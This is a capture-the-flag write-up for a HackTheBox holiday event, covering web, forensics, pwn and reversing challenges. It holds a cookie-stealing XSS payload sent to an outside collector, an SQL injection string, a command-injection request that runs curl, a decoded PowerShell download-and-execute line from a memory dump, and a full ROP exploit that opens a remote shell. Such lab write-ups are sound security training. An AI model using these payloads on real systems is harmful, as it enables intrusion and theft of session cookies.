

# Cyber Santa is Coming to Town

Platform: HackTheBox

# web

## Toy Workshop

[https://medium.com/nerd-for-tech/hacking-puppeteer-what-to-expect-if-you-put-a-browser-on-the-internet-6c3dad0756db](https://medium.com/nerd-for-tech/hacking-puppeteer-what-to-expect-if-you-put-a-browser-on-the-internet-6c3dad0756db)

So, the puppeteer module can be exploited with XSS or with SSRF. Here, I did the XSS with a payload that will send a cookie to Burp Collaborator.

```
POST /api/submit HTTP/1.1
Host: http://178.128.40.158:31735
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:94.0) Gecko/20100101 Firefox/94.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://127.0.0.1:1337/
Content-Type: application/json
Origin: http://127.0.0.1:1337
Content-Length: 138
DNT: 1
Connection: close
Cookie: csrftoken=BGmwGtWO1wTv4h099ZzHpytnLnHgXyQjVCgu73at4cwktiZWbamaZxwG3A1Yh65f
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Sec-GPC: 1

{"query":"<script>document.location='http://localhost/XSS/grabber.php?c='+document.cookie</script>"}
```

```
GET /cookie.php?c=flag=HTB{3v1l_3lv3s_4r3_r1s1ng_up!} HTTP/1.1
Host: fm5qtw4xmsezf4lc4fap3ohz6qci07.burpcollaborator.net
Connection: keep-alive
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/93.0.4577.0 Safari/537.36
Accept: image/avif,image/webp,image/apng,image/svg+xml,image/*,*/*;q=0.8
Referer: http://127.0.0.1:1337/
Accept-Encoding: gzip, deflate
```

## Toy Management

simple SQL injection `admin ' -- '` gives us access to admin account with flag.

## Gadget Santa

We have a list of commands to execute on our server.

```
GET /?command=list_processes HTTP/1.1
Host: 178.62.18.237:32660
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:94.0) Gecko/20100101 Firefox/94.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Referer: http://178.62.18.237:32660/?command=list_processes
Upgrade-Insecure-Requests: 1
Sec-GPC: 1
```

Proof from a response:

```
<pre>UID          PID    PPID  C STIME TTY          TIME CMD
root           1       0  0 09:02 ?        00:00:00 /usr/bin/python2 /usr/bin/supervisord -c /etc/supervisord.conf
root           8       1  0 09:02 ?        00:00:00 nginx: master process nginx -g daemon off;
root           9       1  0 09:02 ?        00:00:00 php-fpm: master process (/etc/php/7.4/fpm/php-fpm.conf)
root          10       1  0 09:02 ?        00:00:00 python3 /root/ups_manager.py
www           11       8  0 09:02 ?        00:00:00 nginx: worker process
www           12       9  0 09:02 ?        00:00:00 php-fpm: pool www
www           13       9  0 09:02 ?        00:00:00 php-fpm: pool www
www           39      12  0 09:07 ?        00:00:00 sh -c /santa_mon.sh list_processes
www           40      39  0 09:07 ?        00:00:00 /bin/bash /santa_mon.sh list_processes
www           41      40  0 09:07 ?        00:00:00 ps -ef
</pre>
```

Check the source code:

```php
<?php
class MonitorModel
{   
    public function __construct($command)
    {
        $this->command = $this->sanitize($command);
    }

    public function sanitize($command)
    {   
        $command = preg_replace('/\s+/', '', $command);
        return $command;
    }

    public function getOutput()
    {
        return shell_exec('/santa_mon.sh '.$this->command);
    }
}
```

You can see that there is a little bit of replacement in our command. The space will be deleted, so we can't use it. Also, you can see that there is no check on what the parameter `command` is. It can be an argument with a new command after `;`.

The source code of another app running on the server on port 3000. It returns the flag on `/get_flag` request.

```
def http_server(host_port,content_type="application/json"):
	class CustomHandler(SimpleHTTPRequestHandler):
		def do_GET(self) -> None:
			def resp_ok():
				self.send_response(200)
				self.send_header("Content-type", content_type)
				self.end_headers()
			if self.path == '/':
				resp_ok()
				if check_service():
					self.wfile.write(get_json({'status': 'running'}))
				else:
					self.wfile.write(get_json({'status': 'not running'}))
				return
			elif self.path == '/restart':
				restart_service()
				resp_ok()
				self.wfile.write(get_json({'status': 'service restarted successfully'}))
				return
			elif self.path == '/get_flag':
				resp_ok()
				self.wfile.write(get_json({'status': 'HTB{f4k3_fl4g_f0r_t3st1ng}'}))
				return
			self.send_error(404, '404 not found')
		def log_message(self, format, *args):
			pass
	class _TCPServer(TCPServer):
		allow_reuse_address = True
	httpd = _TCPServer(host_port, CustomHandler)
	httpd.serve_forever()
```

So, I just used $IFS, which is a space, and bypass space deletion in code, and successfully executed `curl` on port 3000.

```
GET /?command=list_processes;curl${IFS}http://127.0.0.1:3000/get_flag HTTP/1.1
Host: 178.62.18.237:32660
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:94.0) Gecko/20100101 Firefox/94.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Referer: http://178.62.18.237:32660/?command=list_processes
Upgrade-Insecure-Requests: 1
Sec-GPC: 1
```

# forensics

# baby APT

An attacker used command injection vulnerability:



He downloaded his PHP script for further command execution and used it:


If you continue, you'll see a base64 encoded string which is a flag:


## Honeypot

```bash
~/tools/volatility/vol.py -f honeypot.raw --profile=Win7SP1x86 cmdline
Volatility Foundation Volatility Framework 2.6.1
************************************************************************
System pid:      4
************************************************************************
smss.exe pid:    236
Command line : \SystemRoot\System32\smss.exe
************************************************************************
csrss.exe pid:    308
Command line : %SystemRoot%\system32\csrss.exe ObjectDirectory=\Windows SharedSection=1024,12288,512 Windows=On SubSystemType=Windows ServerDll=basesrv,1 ServerDll=winsrv:UserServerDllInitialization,3 ServerDll=winsrv:ConServerDllInitialization,2 ServerDll=sxssrv,4 ProfileControl=Off MaxRequestThreads=16
************************************************************************
wininit.exe pid:    348
Command line : wininit.exe
************************************************************************
csrss.exe pid:    360
Command line : %SystemRoot%\system32\csrss.exe ObjectDirectory=\Windows SharedSection=1024,12288,512 Windows=On SubSystemType=Windows ServerDll=basesrv,1 ServerDll=winsrv:UserServerDllInitialization,3 ServerDll=winsrv:ConServerDllInitialization,2 ServerDll=sxssrv,4 ProfileControl=Off MaxRequestThreads=16
************************************************************************
services.exe pid:    400
Command line : C:\Windows\system32\services.exe
************************************************************************
lsass.exe pid:    408
Command line : C:\Windows\system32\lsass.exe
************************************************************************
lsm.exe pid:    416
Command line : C:\Windows\system32\lsm.exe
************************************************************************
winlogon.exe pid:    496
Command line : winlogon.exe
************************************************************************
svchost.exe pid:    572
Command line : C:\Windows\system32\svchost.exe -k DcomLaunch
************************************************************************
VBoxService.ex pid:    636
Command line : C:\Windows\System32\VBoxService.exe
************************************************************************
svchost.exe pid:    692
Command line : C:\Windows\system32\svchost.exe -k RPCSS
************************************************************************
svchost.exe pid:    744
Command line : C:\Windows\System32\svchost.exe -k LocalServiceNetworkRestricted
************************************************************************
svchost.exe pid:    848
Command line : C:\Windows\System32\svchost.exe -k LocalSystemNetworkRestricted
************************************************************************
svchost.exe pid:    888
Command line : C:\Windows\system32\svchost.exe -k netsvcs
************************************************************************
svchost.exe pid:   1012
Command line : C:\Windows\system32\svchost.exe -k LocalService
************************************************************************
svchost.exe pid:   1084
Command line : C:\Windows\system32\svchost.exe -k NetworkService
************************************************************************
spoolsv.exe pid:   1208
Command line : C:\Windows\System32\spoolsv.exe
************************************************************************
svchost.exe pid:   1252
Command line : C:\Windows\system32\svchost.exe -k LocalServiceNoNetwork
************************************************************************
vmicsvc.exe pid:   1376
Command line : C:\Windows\system32\vmicsvc.exe -feature Heartbeat
************************************************************************
vmicsvc.exe pid:   1396
Command line : C:\Windows\system32\vmicsvc.exe -feature KvpExchange
************************************************************************
vmicsvc.exe pid:   1432
Command line : C:\Windows\system32\vmicsvc.exe -feature Shutdown
************************************************************************
taskhost.exe pid:   1440
Command line : "taskhost.exe"
************************************************************************
vmicsvc.exe pid:   1504
Command line : C:\Windows\system32\vmicsvc.exe -feature TimeSync
************************************************************************
dwm.exe pid:   1532
Command line : "C:\Windows\system32\Dwm.exe"
************************************************************************
vmicsvc.exe pid:   1540
Command line : C:\Windows\system32\vmicsvc.exe -feature VSS
************************************************************************
explorer.exe pid:   1556
Command line : C:\Windows\Explorer.EXE
************************************************************************
svchost.exe pid:   1620
Command line : C:\Windows\System32\svchost.exe -k utcsvc
************************************************************************
VBoxTray.exe pid:   1716
Command line : "C:\Windows\System32\VBoxTray.exe"
************************************************************************
cygrunsrv.exe pid:   1872
Command line : "C:\Program Files\OpenSSH\bin\cygrunsrv.exe"
************************************************************************
wlms.exe pid:   1956
Command line : C:\Windows\system32\wlms\wlms.exe
************************************************************************
cygrunsrv.exe pid:   1612
************************************************************************
conhost.exe pid:   1684
Command line : \??\C:\Windows\system32\conhost.exe "-57088940168010838710243314093101560802089520680-1936804963-2081634044-598129742
************************************************************************
sshd.exe pid:   1676
Command line : "C:\Program Files\OpenSSH\usr\sbin\sshd.exe"
************************************************************************
sppsvc.exe pid:   1800
Command line : C:\Windows\system32\sppsvc.exe
************************************************************************
svchost.exe pid:   2080
Command line : C:\Windows\system32\svchost.exe -k NetworkServiceNetworkRestricted
************************************************************************
SearchIndexer. pid:   2360
Command line : C:\Windows\system32\SearchIndexer.exe /Embedding
************************************************************************
SearchProtocol pid:   2440
Command line : "C:\Windows\system32\SearchProtocolHost.exe" Global\UsGthrFltPipeMssGthrPipe1_ Global\UsGthrCtrlFltPipeMssGthrPipe1 1 -2147483646 "Software\Microsoft\Windows Search" "Mozilla/4.0 (compatible; MSIE 6.0; Windows NT; MS Search 4.0 Robot)" "C:\ProgramData\Microsoft\Search\Data\Temp\usgthrsvc" "DownLevelDaemon"
************************************************************************
SearchFilterHo pid:   2460
Command line : "C:\Windows\system32\SearchFilterHost.exe" 0 504 508 516 65536 512
************************************************************************
csrss.exe pid:   2616
Command line : %SystemRoot%\system32\csrss.exe ObjectDirectory=\Windows SharedSection=1024,12288,512 Windows=On SubSystemType=Windows ServerDll=basesrv,1 ServerDll=winsrv:UserServerDllInitialization,3 ServerDll=winsrv:ConServerDllInitialization,2 ServerDll=sxssrv,4 ProfileControl=Off MaxRequestThreads=16
************************************************************************
winlogon.exe pid:   2644
Command line : winlogon.exe
************************************************************************
taskhost.exe pid:   2784
Command line : "taskhost.exe"
************************************************************************
dwm.exe pid:   2844
Command line : "C:\Windows\system32\Dwm.exe"
************************************************************************
explorer.exe pid:   2856
Command line : C:\Windows\Explorer.EXE
************************************************************************
regsvr32.exe pid:   3108
************************************************************************
VBoxTray.exe pid:   3504
Command line : "C:\Windows\System32\VBoxTray.exe"
************************************************************************
WmiPrvSE.exe pid:   3112
Command line : C:\Windows\system32\wbem\wmiprvse.exe
************************************************************************
iexplore.exe pid:   3324
Command line : "C:\Program Files\Internet Explorer\iexplore.exe"
************************************************************************
iexplore.exe pid:   3344
Command line : "C:\Program Files\Internet Explorer\iexplore.exe" SCODEF:3324 CREDAT:14337
************************************************************************
powershell.exe pid:   2700
Command line : "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" /window hidden /e aQBlAHgAIAAoACgAbgBlAHcALQBvAGIAagBlAGMAdAAgAG4AZQB0AC4AdwBlAGIAYwBsAGkAZQBuAHQAKQAuAGQAbwB3AG4AbABvAGEAZABzAHQAcgBpAG4AZwAoACcAaAB0AHQAcABzADoALwAvAHcAaQBuAGQAbwB3AHMAbABpAHYAZQB1AHAAZABhAHQAZQByAC4AYwBvAG0ALwB1AHAAZABhAHQAZQAuAHAAcwAxACcAKQApAA==
************************************************************************
conhost.exe pid:   3732
Command line : \??\C:\Windows\system32\conhost.exe "288449379-1457209856-1923954052-101100547-172367320720102786213404402731845854479
************************************************************************
whoami.exe pid:   4028
************************************************************************
HOSTNAME.EXE pid:   4036
************************************************************************
DumpIt.exe pid:   2924
Command line : "C:\Users\Santa\Desktop\DumpIt.exe"
************************************************************************
conhost.exe pid:   2920
Command line : \??\C:\Windows\system32\conhost.exe "280284285205075330588133904-110126809119471720131011406317-845024101-1158882802
************************************************************************
dllhost.exe pid:    168
Command line : C:\Windows\system32\DllHost.exe /Processid:{AB8902B4-09CA-4BB6-B78D-A8F59079A8D5}
```

```bash
echo aQBlAHgAIAAoACgAbgBlAHcALQBvAGIAagBlAGMAdAAgAG4AZQB0AC4AdwBlAGIAYwBsAGkAZQBuAHQAKQAuAGQAbwB3AG4AbABvAGEAZABzAHQAcgBpAG4AZwAoACcAaAB0AHQAcABzADoALwAvAHcAaQBuAGQAbwB3AHMAbABpAHYAZQB1AHAAZABhAHQAZQByAC4AYwBvAG0ALwB1AHAAZABhAHQAZQAuAHAAcwAxACcAKQApAA== | base64 -d
iex ((new-object net.webclient).downloadstring('https://windowsliveupdater.com/update.ps1'))
```

Now, we have a URL for malware, I think.

Just searched this IP 147.182.172.189 with `strings` and found it in the source code of reverse shell.

But I didn't get the PID or maybe I did something wrong above, so, I didn't solve the task.

# Pwn

## Mr Snowy

We have a simple program to print snowman and inspect some camera on it:


Source code:

```c
__int64 snowman()
{
  char v1[64]; // [rsp-40h] [rbp-40h] BYREF

  printstr(&unk_4019A8);
  fflush(_bss_start);
  read(0, v1, 2uLL);
  if ( atoi(v1) != 1 )
  {
    printstr("[*] It's just a cute snowman after all, nothing to worry about..\n");
    color("\n[-] Mission failed!\n", "red", "bold");
    exit(-69);
  }
  return investigate();
}
```

Here is our buffer overflow:

```c
int investigate()
{
  char v1[64]; // [rsp-40h] [rbp-40h] BYREF

  fflush(_bss_start);
  printstr(&unk_401878);
  fflush(_bss_start);
  read(0, v1, 264uLL);
  if ( atoi(v1) == 1 )
  {
    puts("\x1B[1;31m");
    printstr("[!] You do not know the password!\n[-] Mission failed!\n");
    exit(22);
  }
  if ( atoi(v1) == 2 )
  {
    puts("\x1B[1;31m");
    printstr("[!] This metal seems unbreakable, the elves seem to have put a spell on it..\n[-] Mission failed!\n");
    exit(22);
  }
  fflush(_bss_start);
  puts("\x1B[1;31m");
  fflush(_bss_start);
  puts("[-] Mission failed!");
  return fflush(_bss_start);
}
```

read function will get 264 bytes, but a buffer is a size of 64 bytes. A little bit of brute force and you'll get the offset 72 bytes before saved return address.

The program has NX enabled and Full Relro, and ASLR. Okay, the things are clear. It is about Return-Oriented Programming. However, for success, we need to leak the libc address, calculate its base address and then get all addresses that we need for successful ROP usage.

For that, firstly, leak address of `puts`, google in what libc it has this address and then take offsets for system and bin_sh_string.

My final exploit looks like this:

```python
from pwn import *
import sys

class BOFWithROP:
    '''
    Based on another write-up
    Link: https://amirr0r.github.io/posts/cyber-apocalypse-ctf-controller/
    '''
    def send_payload(self, payload):
        # Send the payload
        self.r.sendlineafter('>', b'1')
        self.r.sendlineafter('>', payload)

    def leak_puts(self):
        # Create the buffer
        payload = b'A'*72
        # Find address of puts in plt
        plt_puts = self.binary.plt['puts']
        # Find address of got in plt
        got_puts = self.binary.got['puts']
        # Find address of main in symbols
        main_addr = self.binary.symbols['main']
        # Find pop rdi gadget to assign first argument to syscall
        self.pop_rdi = (self.rop_binary.find_gadget(['pop rdi', 'ret']))[0]
        # Create a payload
        payload += p64(self.pop_rdi)
        payload += p64(got_puts)
        payload += p64(plt_puts)
        payload += p64(main_addr)
        self.send_payload(payload)
        self.r.recvline()
        self.r.recvline()
        # Receive an address of leaked puts
        leak = self.r.recvline().strip()
        puts_addr = u64(leak.ljust(0x8, b"\x00"))
        return puts_addr

    def create_shell(self, puts_addr):
        # info("Puts address: 0x%x" % puts_addr)
        # https://libc.blukat.me/?q=puts%3Aaa0&l=libc6_2.27-3ubuntu1.4_amd64
        # From the site above determine the offset inside libc
        libc_base = puts_addr - 0x080aa0
        # Now, when we know the base address of libc, we can simply find needed gadgets
        system_addr = libc_base + 0x04f550
        bin_sh_addr = libc_base + 0x1b3e1a
        ret_addr = (self.rop_binary.find_gadget(['ret']))[0]
        # Again create a payload
        payload = b'A' * 72
        payload += p64(ret_addr)
        payload += p64(self.pop_rdi)
        payload += p64(bin_sh_addr)
        payload += p64(system_addr)
        # And send it
        self.send_payload(payload)
        self.r.interactive()

    def exploit(self):
        REMOTE = True if sys.argv[1] and sys.argv[2] else False
        binary_path = './mr_snowy'
        self.binary = ELF(binary_path)
        if REMOTE:
            self.r = remote(sys.argv[1], int(sys.argv[2]))
        else:
            self.r = process(binary_path)
        # Create object to search ROP gadgets
        self.rop_binary = ROP(self.binary)
        puts_addr = self.leak_puts()
        self.create_shell(puts_addr)

def main():
    bwr = BOFWithROP()
    bwr.exploit()

if __name__=='__main__':
    main()
```

```bash
python3 exploit.py 178.62.123.156 31965
[*] '/home/shogun/repos/ctf/HackTheBox CTF/Cyber Santa is Coming to Town/pwn/mr_snowy'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Opening connection to 178.62.123.156 on port 31965: Done
[*] Loaded 14 cached gadgets for './mr_snowy'
/home/shogun/.local/lib/python3.8/site-packages/pwnlib/tubes/tube.py:822: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  res = self.recvuntil(delim, timeout=timeout)
[*] Switching to interactive mode

[-] Mission failed!
$ w
 06:06:52 up 1 day, 14:23,  0 users,  load average: 0.19, 0.16, 0.11
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
$ cat flag.txt
HTB{n1c3_try_3lv35_but_n0t_g00d_3n0ugh}
$
```

# Reversing

## Gift Wrapping

An executable file is compressed with upx, so decompress it with `upx -d giftwrap`.

The source code:

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  unsigned int i; // [rsp+Ch] [rbp-114h]
  __int64 user_password[34]; // [rsp+10h] [rbp-110h] BYREF

  user_password[33] = __readfsqword(40u);
  user_password[0] = 0LL;
  user_password[1] = 0LL;
  user_password[2] = 0LL;
  user_password[3] = 0LL;
  user_password[4] = 0LL;
  user_password[5] = 0LL;
  user_password[6] = 0LL;
  user_password[7] = 0LL;
  user_password[8] = 0LL;
  user_password[9] = 0LL;
  user_password[10] = 0LL;
  user_password[11] = 0LL;
  user_password[12] = 0LL;
  user_password[13] = 0LL;
  user_password[14] = 0LL;
  user_password[15] = 0LL;
  user_password[16] = 0LL;
  user_password[17] = 0LL;
  user_password[18] = 0LL;
  user_password[19] = 0LL;
  user_password[20] = 0LL;
  user_password[21] = 0LL;
  user_password[22] = 0LL;
  user_password[23] = 0LL;
  user_password[24] = 0LL;
  user_password[25] = 0LL;
  user_password[26] = 0LL;
  user_password[27] = 0LL;
  user_password[28] = 0LL;
  user_password[29] = 0LL;
  user_password[30] = 0LL;
  user_password[31] = 0LL;
  printf("What's the magic word? ", argv, envp);
  _isoc99_scanf("%256s", user_password);
  for ( i = 0; i <= 255; ++i )
    *((_BYTE *)user_password + (int)i) ^= 243u;
  if ( (unsigned int)j_memcmp_ifunc(&CHECK, user_password, 0x17LL) )
    puts("Wrong password! Who are you?!?");
  else
    puts("Welcome inside...");
  return 0;
}
```

There is a buffer of 256 bytes, each byte is XORed with a 243 value. Then, the final string is compared with CHECK value inside the program:

```c
.data:00000000004CC0F0                 public CHECK
.data:00000000004CC0F0 CHECK           db 0BBh                 ; DATA XREF: main+1D5↑o
.data:00000000004CC0F1                 db 0A7h
.data:00000000004CC0F2                 db 0B1h
.data:00000000004CC0F3                 db  88h
.data:00000000004CC0F4                 db  86h
.data:00000000004CC0F5                 db  83h
.data:00000000004CC0F6                 db  8Bh
.data:00000000004CC0F7                 db 0ACh
.data:00000000004CC0F8                 db 0C7h
.data:00000000004CC0F9                 db 0C2h
.data:00000000004CC0FA                 db  9Dh
.data:00000000004CC0FB                 db  87h
.data:00000000004CC0FC                 db 0ACh
.data:00000000004CC0FD                 db 0C6h
.data:00000000004CC0FE                 db 0C3h
.data:00000000004CC0FF                 db 0ACh
.data:00000000004CC100                 db  9Bh
.data:00000000004CC101                 db 0C7h
.data:00000000004CC102                 db  81h
.data:00000000004CC103                 db  97h
.data:00000000004CC104                 db 0D2h
.data:00000000004CC105                 db 0D2h
.data:00000000004CC106                 db  8Eh
.data:00000000004CC107                 db    0
```

Code to decrypt the flag:

```python
check = [0xbb, 0xa7, 0xb1, 0x88, 0x86, 0x83, 0x8b, 0xac, 0xc7, 0xc2, 0x9d, 0x87,
         0xac, 0xc6, 0xc3, 0xac, 0x9b, 0xc7, 0x81, 0x97, 0xd2, 0xd2, 0x8e]
flag = ''
for byte in check:
    flag += chr(byte ^ 243)
print(flag)
```

```python
python3 decrypt.py
HTB{upx_41nt_50_h4rd!!}
```
